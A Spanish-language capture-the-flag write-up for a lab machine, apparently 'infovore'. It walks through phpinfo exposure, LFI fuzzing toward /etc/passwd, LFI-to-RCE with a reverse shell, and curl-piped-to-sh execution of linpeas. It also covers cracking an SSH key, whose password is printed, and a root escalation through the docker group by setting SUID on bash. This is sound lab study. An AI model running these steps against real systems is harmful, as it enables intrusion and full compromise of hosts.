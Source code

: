 ____
#medium #phpinfo #LFI #fuzzing_parametros #disable_functions 
______
**Escaneo Nmap 

![[Pasted image 20250410085754.png]]

**Port 80

*Whatweb*

![[Pasted image 20250410090129.png]]

*Fuzzing*

![[Pasted image 20250410090622.png]]

El **/php.info** está expuesto, esto puede darnos mucha información importante y posibles vectores.
____
**PHP.INFO

![[Pasted image 20250410093119.png]]
___
*allow_url_fopen*

Con el allow_url_fopen *On* podemos tener un posible vector de LFI

**Respuesta de chatgpt** de que se puede conseguir con [[allow_url_fopen]] mal configurado
___
*disable_functions*

Si en esta no hay ningún valor, al lograr subir un archivo podríamos ejecutar todo tipo de funciones 


- `exec()`
- `shell_exec()`
- `system()`
- `passthru()`
- `popen()`
- `proc_open()`

**Respuesta de chatgpt** de que se puede conseguir con [[disable_functions]] mal configurado
______
**FUZZING DE PARAMETROS** 

![[Pasted image 20250410095136.png]]

```bash
ffuf -u 'http://10.10.2.54/index.php?FUZZ=../../../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -fl=137
```

Tenemos un LFI bastante limitado solo podemos ver el /etc/passwd

![[Pasted image 20250410095804.png]]

Cosas a probar para escalar desde un [[LFI]] 

Como nada a funcionado a parte de ver el /etc/passwd probaremos mas cosas
__________

Probaremos a subir archivos ya que **file_uploads** está en *On*

![[Pasted image 20250410104014.png]]


Enviaremos una petición por POST a /info.php con un formato [boundary](https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Methods/POST)

![[Pasted image 20250414095842.png]]

Como las subidas de archivos primero se almacenan en un archivo temporal buscaremos en la respuesta del servidor algo como **tmp_** 

![[Pasted image 20250414100137.png]]

Ahora usaremos un script de [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html) para subir un reverse shell y entablar una conexion, con chatgpt he convertido el script [[phpinfolfi.py]] a python3 

Tenemos que setear el **Payload** , el path de **info.php** y  la pagina donde se produce el **LFI**

Luego ejecutaremos el script con python3 o 2.7 en su version original con el siguiente comando

```bash
python3 phpinfolfi.py <ip victima> <port>
```

nos pondremos en escucha por el puerto que hemos seteado en el script con ncat

```bash
sudo ncat -nlvp <port>
```

_________________________________

# ESCALADA DE PRIVILEGIOS

Después de comprobar:

```
sudo -l
```

```bash
find / -perm -4000 2>/dev/null
```

```
hostname -I
```

podemos comprobar que es un contenedor Docker por la IP.

En la contenedor no hay wget ni nc ni ncat pero si curl para poder descargar linpeas

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

en el escaneo podemos ver un archivo .tgz raro en root

![[Pasted image 20250415123941.png]]

lo copiamos a /tmp y lo descomprimimos con tar:

```bash
tar -xf oldkeys.tgz
```

obtenemos dos archivos **root  root.pub** son claves rsa encriptadas

![[Pasted image 20250415124246.png]]

Nos copiamos este archivo en nuestra maquina

primero las pasamos por **ssh2john.py** para obstener un hash y posteriormente crackearlo con john

```bash
ssh2john id_rsa
```

```bash
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt id_rsa
```

![[Pasted image 20250415124840.png]]

la contraseña es **choclate93** , como pone en el archivo root.pub es para el usuario **root**

```
su root
```

y la contraseña

ejecutamos linpeas.sh otra vez pero ahora como root y vemos el ssh

![[Pasted image 20250415130657.png]]

volemos a hacer el mismo procedimiento para desencryptarlo y es la misma contraseña, como vemos en el id_rsa.pub sirve para loguearse por ssh en admin@192.168.150.1

```bash
ssh -i id_rsa admin@192.168.150.1
```

ahora que hemos salido del contenedor de docker miramos si nuestro usuario esta en el grupo docker y asi es.

podemos crear un nuevo contenedor con una montura del equipo victima y desde esta darle privilegios SUID a la bash

**Creamos un contenedor con una montura desde la raiz del equipo victima usando la imagen que ya esta descargada
```bash
docker run -dit -v /:/mnt/root theart42/infovore
```

**Nos desplegamos una bash con este contenedor

```bash
docker exec -it happy_jones bash
```

**Damos permisos SUID a la bash

```bash
cd /mnt/root
cd bin/
chmod u+s bash
```

salimos del contenedor

```bash
bash -p
```


```bash
cat /root/root.txt
```

![[Pasted image 20250416104559.png]]